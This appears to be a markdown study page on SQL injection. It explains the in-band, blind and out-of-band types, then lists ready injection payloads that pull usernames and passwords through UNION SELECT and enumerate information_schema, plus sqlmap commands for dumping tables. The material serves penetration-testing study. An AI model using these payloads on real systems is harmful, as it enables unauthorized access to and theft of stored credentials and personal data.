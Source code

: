 # SQL Injection (SQLi)

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It can lead to unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.

## Types of SQL Injection

### In-band SQLi (Classic SQLi)

The attacker uses the same communication channel to launch the attack and gather results.
*   **Error-based SQLi:** The attacker crafts input that causes the database to produce error messages, revealing information about its structure.
*   **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of a legitimate query with a query of their own.

### Inferential SQLi (Blind SQLi)

The web application does not return the results of the malicious query directly. The attacker must infer the results by observing the application's behavior.
*   **Boolean-based SQLi:** The attacker sends a query that results in a true or false condition, which is reflected in the application's response (e.g., a different page is loaded).
*   **Time-based SQLi:** The attacker sends a query that instructs the database to wait for a specific amount of time. The response delay indicates whether the query was successful.

### Out-of-band SQLi

The attacker uses a different communication channel to exfiltrate data, such as making the server issue a DNS or HTTP request to a server the attacker controls.

## Common Payloads and Concepts

### Basic Injection
The most basic form of SQLi is to break out of a string literal and inject a condition that is always true.
*   `' or 1=1--`
*   `' or '1'='1`

### Union-based Injection
This is used to retrieve data from other tables.
*   `' UNION SELECT username, password FROM users--`

### Discovering Database Structure
In many database systems, you can query a data dictionary or information schema to get information about the database structure.
*   **Tables:** `' UNION SELECT table_name, null FROM information_schema.tables--`
*   **Columns:** `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--`

## SQLMap

SQLMap is an open-source tool that automates the process of detecting and exploiting SQL injection flaws. It is a powerful tool for penetration testers.

### Basic Usage
`sqlmap -u "http://vulnerable-website.com/product.php?id=1"`

### Common Options
*   `--dbs`: Enumerate databases.
*   `--tables -D <database>`: Enumerate tables in a database.
*   `--columns -T <table> -D <database>`: Enumerate columns in a table.
*   `--dump -C <columns> -T <table> -D <database>`: Dump data from a table.
*   `--batch`: Use default answers for all questions.
*   `--level=5 --risk=3`: Increase the number of checks performed.

## Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

URL encoding:
https://www.w3schools.com/tags/ref_urlencode.ASP

```sql
test' or 1=1--
```

```sql
1' and '1'='1'--
```

```sql
1' OR '1'='1'#
```

```sql
'UNION SELECT table_name, NULL FROM information_schema.tables #
```

```sql
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' #
```

```sql
'UNION SELECT user, password FROM users #
```

```sql
1 UNION SELECT user, password FROM users --
```

```sql
1%20+UNION+SELECT+user,password+FROM+users%23
```

```sql
'UNION SELECT user, password FROM users #
```

```sql
tester@localhost.com' --
```